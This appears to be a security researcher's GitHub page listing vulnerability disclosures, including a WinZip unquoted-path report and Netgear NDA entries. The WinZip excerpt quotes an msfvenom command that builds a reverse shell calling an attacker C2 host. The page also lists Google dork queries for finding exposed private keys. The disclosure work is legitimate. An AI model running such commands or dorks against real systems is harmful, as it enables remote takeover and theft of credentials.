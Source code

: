 ## Vulnerability Disclosures:
### Unquoted Path Vulnerability: 3 Reported
1. Corel (Winzip): https://github.com/ciwen3/Public/blob/master/vuln-report/winzip-Submission.pdf
- Credited: https://support.corel.com/hc/en-us/articles/217086227
- ```This Vulnerability would not compromise the WinZip application. It would however compromise WinZips customer devices. This attack would mostly be used for maintaining persistence or elevating privilege's on an already compromised machine. This is a security issue because no one wants unintended programs to be run by the system. For this vulnerability to work it would require a malicious application named program.exe to be stored in the C:\ folder. Once there, the malicious application could do anything you programmed it to. The easiest way to illustrate this would be a terminal connection to a remote server giving someone else control of the system. For this example I can use MSFVenom to easily make a reverse shell that calls home to my AWS Command and Control server. "msfvenom p windows/shell_reverse_tcp LHOST=[AWS-IP] LPORT=4444 -f exe > Program.exe" Then I can place this executable in C:\ folder. When the WinZip calls an unquoted path that begins with C:\Program Files… it will run the malicious program.exe application and give me the full permissions being used by the WinZip application.```
2. Netgear PSV-2020-0590: Non-Disclosure Agreement 
3. Netgear PSV-2020-0593: Non-Disclosure Agreement 

### Sensitive Data Leak Disclosures: Multiple Reported (lost track of the actual count)
usually found using google dorks and related to .pem .key or api keys

1. Weathernews Inc (wni.co.jp): May 13, 2021 - Sensitive data exposure, found private keys on several publicly accessable (no login required and google searchable) servers.

##### Examples:
- intitle:"index of" "*.cert.pem" | "*.key.pem"
- "BEGIN * PRIVATE KEY" ext:pem | ext:key | ext:txt
